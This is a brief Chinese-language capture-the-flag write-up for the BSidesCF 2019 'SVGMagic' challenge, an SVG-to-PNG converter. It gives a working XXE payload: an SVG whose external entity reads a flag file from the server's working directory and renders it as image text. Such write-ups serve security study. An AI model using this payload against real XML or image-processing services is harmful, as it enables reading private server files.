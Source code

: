 # [BSidesCF 2019]SVGMagic
![](<./img/Pasted image 20230222093051.png>)

```
/
```

![](<./img/Pasted image 20230222093257.png>)

```
/render
```

![](<./img/Pasted image 20230222093428.png>)

可以将SVG转成PNG，存在XXE的可能性

```svg
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg [
	<!ENTITY flag SYSTEM "file:///proc/self/cwd/flag.txt">
]>
<svg ...>
	...
	<text ...>&flag;</text>
</svg>
```

![](<./img/Pasted image 20230222100657.png>)
